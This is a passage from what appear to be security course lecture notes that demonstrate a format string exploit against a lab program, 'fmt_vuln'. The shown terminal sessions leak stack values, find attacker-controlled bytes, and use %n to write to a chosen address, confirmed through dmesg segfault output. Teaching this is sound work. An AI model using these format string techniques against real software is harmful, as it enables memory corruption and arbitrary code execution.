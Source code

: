 ``` {.example}

Wrong: BBBB.0xbffff2b0.0x000400.0x000004

[*] test_val @ 0x804a02c = 4276545 0x00414141

user@si485H-base:demo$ ./fmt_vuln BBBB.%#08x.%#08x.%#08x.%#08x
Right: BBBB.%#08x.%#08x.%#08x.%#08x

Wrong: BBBB.0xbffff2b0.0x000400.0x000004.0x42424242

[*] test_val @ 0x804a02c = 4276545 0x00414141
```

We found it, and the significance of that is really important because
that means we now control one of the arguments to the format. Consider
what happens when I change the last format directive to a `%n`.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln BBBB.%#08x.%#08x.%#08x.%n
Right: BBBB.%#08x.%#08x.%#08x.%n

Segmentation fault (core dumped)
```

I get a segfault, and now you should all know that that means pay dirt
for exploits. Let's see where we crashed with dmesg:

``` {.example}
user@si485H-base:demo$ dmesg | tail -1
[4571638.361817] fmt_vuln[18555]: segfault at 42424242 ip b7e619ee sp bfffed60 error 6 in libc-2.19.so[b7e1b000+1a8000]
```

We crashed when we dereferenced 0x42424242, and we control that address.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln ABCD.%#08x.%#08x.%#08x.%n
Right: ABCD.%#08x.%#08x.%#08x.%n

Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[4571771.090412] fmt_vuln[18559]: segfault at 44434241 ip b7e619ee sp bfffed60 error 6 in libc-2.19.so[b7e1b000+1a8000]

user@si485H-base:demo$ ./fmt_vuln $(printf "\xef\xbe\xad\xde").%#08x.%#08x.%#08x.%n
Right: ﾭ?.%#08x.%#08x.%#08x.%n

Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[4571823.069638] fmt_vuln[18564]: segfault at deadbeef ip b7e619ee sp bfffed60 error 7 in libc-2.19.so[b7e1b000+1a8000]
```

If we control that value, it also means that we can put anything there,
not just deadbeef, but a totally valid address that we want to change.
